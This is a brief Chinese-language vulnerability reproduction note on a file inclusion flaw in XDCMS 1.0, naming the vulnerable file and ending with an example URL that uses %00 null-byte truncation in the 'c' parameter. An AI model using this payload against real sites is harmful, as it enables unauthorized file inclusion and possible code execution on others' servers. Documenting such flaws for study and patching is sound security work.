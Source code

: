 XDCMS 1.0 任意文件包含漏洞
==========================

一、漏洞简介
------------

要求PHP版本小于5.3，否则无法使用%00截断

二、漏洞影响
------------

XDCMS 1.0

三、复现过程
------------

漏洞文件：`api\index.php`

![](./.resource/XDCMS1.0任意文件包含漏洞/media/rId24.jpg)

![](./.resource/XDCMS1.0任意文件包含漏洞/media/rId25.jpg)

安全过滤函数 发生鸡肋

很明显 %00截断

    http://www.0-sec.org/api/index.php?c=xxxxxx%00dama.php  
